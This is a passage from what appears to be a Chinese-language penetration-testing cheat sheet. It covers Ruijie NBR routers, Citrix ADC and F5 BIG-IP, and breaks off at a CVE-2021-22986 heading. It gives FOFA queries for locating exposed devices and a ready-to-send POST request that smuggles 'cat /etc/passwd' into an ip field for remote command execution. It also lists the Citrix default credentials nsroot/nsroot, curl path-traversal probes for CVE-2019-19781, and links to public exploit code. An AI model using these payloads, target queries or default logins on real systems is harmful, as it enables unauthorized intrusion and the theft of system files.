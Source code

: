 #### 锐捷 NBR路由器

##### 远程命令执行漏洞 CNVD-2021-09650 ✅

FOFA：

```
title="锐捷网络-EWEB网管系统"
icon_hash="-692947551"
```

构造命令执行：

```
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

再访问：

```
/guest_auth/test.txt
```

### 0x06 负载均衡

#### Citrix ADC

##### 默认口令

```
nsroot/nsroot
```

##### 远程代码执行 CVE-2019-19781

访问以下链接，返回403则表示不存在漏洞，返回smb.conf则证明漏洞存在。

```
curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is
或
curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is --insecure
```

exp：

- https://github.com/trustedsec/cve-2019-19781
- https://github.com/jas502n/CVE-2019-19781

#### F5 BIG-IP

##### 远程代码执行 CVE-2020-5902

exp：

- https://github.com/jas502n/CVE-2020-5902
- https://github.com/theLSA/f5-bigip-rce-cve-2020-5902

##### 远程代码执行 CVE-2021-22986
